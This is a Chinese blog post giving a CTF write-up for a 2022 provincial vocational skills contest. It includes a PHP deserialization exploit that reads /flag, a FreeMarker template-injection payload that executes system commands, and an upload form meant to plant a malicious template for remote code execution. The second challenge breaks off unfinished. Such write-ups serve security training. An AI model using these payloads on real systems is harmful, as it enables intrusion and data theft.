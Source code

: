 ```yaml
---
layout: post
title: "2022年全省通信和互联网行业职业技能竞赛 WriteUp"
date: 2022-11-04
toc: true
author: Bin4xin
categories:
- blog
tags:
- CTF
- WriteUp
---
```


## # 1.Web PHP serialize

反序列化考点；题意：

定义了两个class，class A是去找传入进来的文件位置并做if存在判断，过程中对`$filepath`做base64解码；

```php
class A{
    public $files;
    public function findFile()
    {
        echo $this->files;
        if (file_exists(base64_decode($this->files->filepath)))
        {
            echo "This is a file";
        }else{
            echo "File not found";
        }
    }
    public function __destruct()
    {
        $this->findFile();
    }
}
```

第二个class B是对传入的`$filepath`做了一个简单的过滤判断，如果传入的字符符合`/flag`，那么就直接退出报`die("no")`；

```php
class B{
    public $filepath;
    public function shutdown()
    {
        die("no");
    }
    public function __toString()
    {
        $result = $this->filepath;
        if (strstr($result,"L2ZsYWc") || strlen($result)>8){
            $this->shutdown();
        }
        $result = base64_decode($result);
        $content = file_get_contents($result);
        echo $content;
        return "";
    }
}
```

最后就针对传入的参数做反序列化：

```php
@$a = $_GET['a'];
@unserialize(base64_decode($a));
```

所以定义两个函数传入`$filepath`，序列化后对字符串进行base64编码即可：

### exp

```php
 <?php
class A{
    public $files;
}
class B{
    public $filepath;
}

$a = new A();
$b = new B();

$a->files = $b;
$b->filepath = "Ly9mbGFn";
echo base64_encode(serialize($a));
?>
```

`php7 exp.php`

![2022-10-31-23.08.27.png]({{site.PicturesLinks_Domain}}/images/2022/11/03/2022-10-31-23.08.27.png)

## # 2.Web FunnyJava

题目给出了一个Jar包； IDEA引用lib直接反编译

直接定位`Controller`：

### Search Controller

```
FunnyJava.jar!/BOOT-INF/classes/com/funnnyjava/Controller/Search.class
```

```java
@RequestMapping(
        value = {"/search"},
        method = {RequestMethod.GET, RequestMethod.POST}
    )
    @ResponseBody
    public String search(HttpServletRequest request, HttpServletResponse response) {
        String search = request.getParameter("search");
        if (search == null) {
            search = "search.html";
        }
        ···
        return content;
    }
```
一个`/Search`功能，提供`search`参数返回相关内容；解析模版可以通过以下类中看到[^1]：

```
FunnyJava.jar!/BOOT-INF/classes/com/funnnyjava/util/ParserUtil.class
```

```java
String buildTempletPath = BasicUtil.getRealPath(context, "") + "templates" + File.separator;
```

### Editor Controller

第二个是一个ueditor的路由定义：

```java
@RequestMapping({"/static/plugins/ueditor/{version}/jsp"})
··· {
···
    @RequestMapping({"editor"})
    public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig){
        ···
            }
        }
```

应该是一个上传功能的路由定义，但是我们看完两个Controller还暂时没有思路，上传点这里我们暂时放下不表；

### 解题思路

Search功能我们可以看到默认解析的是webapp中的`search.html`并返回；

Editor上传功能也有可能我们找到上传点，可以直接getshell；

所以目前有两个思路：

- 思路一：`Search`直接模版解析RCE；
- 思路二：`Editor`上传getShell；

### 本地调试

思路一：

```java
import freemarker.core.ParseException;
import freemarker.template.MalformedTemplateNameException;
import freemarker.template.TemplateNotFoundException;
```
我们可以看到搜索功能下导入的模版解析库；我们搜索关键词`Freemarker模板注入`，可以看到网上很多相关文章，而且在Jar包中其实也给了我们提示：

```
FunnyJava.jar!/BOOT-INF/classes/templates/1647232439869.htm
```
我们直接本地起环境，把代码放到模版位置，查看运行情况：

```html
<#assign exec="freemarker.template.utility.Execute"?new()> ${ exec("id") }
```

![2022-10-31-23.07.36.png]({{site.PicturesLinks_Domain}}/images/2022/11/03/2022-10-31-23.07.36.png)

我们可以看到，模版解析RCE。所以思路一没问题，那么我们应该怎么把我们生成的模版让服务器去执行呢？

思路二：

显然，需要通过`ueditor`的上传功能上传到`webapp/templates`目录下（前面已经解释目录来源），然后通过`search`功能来解析我们的恶意模版来达到RCE的目的；

#### 上传点突破

我们通过前面[Editor](#editor)的路由定义来找到路由如何访问，并定义相关参数上传我们的模版：

根据`@RequestMapping`的定义和`ueditor`的相关用法，找到上传的路由为：

```
http://localhost:8080/static/plugins/ueditor/1.4.3.3/jsp/editor?action=uploadimage
```

payload：

```html
<form action="http://localhost:8080/static/plugins/ueditor/1.4.3.3/jsp/editor?action=uploadimage" method="post" enctype="multipart/form-data">
    <div><input type="file" multiple="multiple" accept="image/*" name="image"></div>
    <div><input type="submit" value="上传"></div>
</form>
```

不过构造完payload上传后会一直提示`IO错误`；考虑有可能是写入文件格式不正确；

[//]: # (Mark TODO)

## REF

[^1]: [FreeMarker模板开发中StringTemplateLoader的用法](https://blog.csdn.net/weixin_41986096/article/details/105481817){:target="_blank"}